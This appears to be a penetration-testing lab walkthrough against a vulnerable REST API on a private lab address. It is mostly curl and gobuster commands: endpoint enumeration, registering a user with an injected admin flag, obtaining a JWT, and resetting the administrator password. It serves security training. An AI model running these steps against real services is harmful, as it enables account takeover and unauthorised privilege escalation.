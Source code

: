 #### Obtaining Users' Information
```Shell
curl -i http://192.168.50.16:5002/users/v1
```

#### Discovering extra APIs
```Shell
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```
The example included the `/password` path

#### Check if the login method is supported by extending our base URL
```Shell
curl -i http://192.168.50.16:5002/users/v1/login
```
Although we were presented with a 404 NOT FOUND message, the status message states that the user has not been found; another clear sign that the API itself exists

#### Crafting a POST request against the login API
```Shell
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```
The API return message shows that the authentication failed, meaning that the API parameters are correctly formed

#### Attempting new User Registration
```Shell
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
```
The API replied with a fail message stating that we should also include an email address.

#### Attempting to register a new user as admin
```Shell
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
```
Since we received no error, it seems we were able to successfully register a new user as an admin, which should not be permitted by design.

#### Logging in as an admin user
```Shell
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```
We were able to correctly sign in and retrieve a JWT authentication token.

#### Attempting to Change the Administrator Password via a POST request
```Shell
curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'
```
We passed the JWT key inside the Authorization header along with the new password
